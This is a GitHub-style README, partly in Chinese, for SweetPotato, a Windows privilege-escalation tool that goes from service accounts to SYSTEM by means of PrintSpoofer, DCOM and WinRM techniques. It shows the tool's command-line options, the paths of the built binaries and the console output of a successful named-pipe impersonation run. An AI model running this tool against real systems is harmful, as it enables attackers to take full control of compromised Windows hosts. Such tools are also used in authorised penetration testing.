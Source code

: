 # SweetPotato 
### A collection of various native Windows privilege escalation techniques from service accounts to SYSTEM

```
C:\Users\Administrator\Desktop>SweetPotato.exe -h

SweetPotato by @_EthicalChaos_

Orignal RottenPotato code and exploit by @foxglovesec

Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery

PrintSpoofer discovery and original exploit by @itm4n

  -c, --clsid=VALUE          CLSID (default BITS: 4991D34B-80A1-4291-83B6-
                               3328366B9097)
  -m, --method=VALUE         Auto,User,Thread (default Auto)
  -p, --prog=VALUE           Program to launch (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -e, --exploit=VALUE        Exploit mode [DCOM|WinRM|PrintSpoofer(default)]
  -l, --listenPort=VALUE     COM server listen port (default 6666)
  -h, --help                 Display this help

C:\Users\Administrator\Desktop>

```

# 甜土豆🥔

### 从`service accounts` 服务帐户到`SYSTEM`的各种本机Windows特权升级技术的集合

```
@foxglovesec的Orignal 烂土豆RottenPotato代码和利用
@decoder_it和@Guitro通过BITS WinRM发现武器化的 多汁JuciyPotato
@itm4n的PrintSpoofer发现和原始利用
```

![](./images/build.png)


`SweetPotato-CCob\NtApiDotNet\bin\Release\NtApiDotNet.dll`

`SweetPotato-CCob\bin\Release\SweetPotato.exe`


![](./CCob.png)

```
C:\Users\Administrator\Desktop>SweetPotato.exe

SweetPotato by @_EthicalChaos_

Orignal RottenPotato code and exploit by @foxglovesec

Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery

PrintSpoofer discovery and original exploit by @itm4n

[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\IIS85-CN/pipe/e5ebfae5-578d-498a-b870-7641254c8393
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\Users\Administrator\Desktop>

```
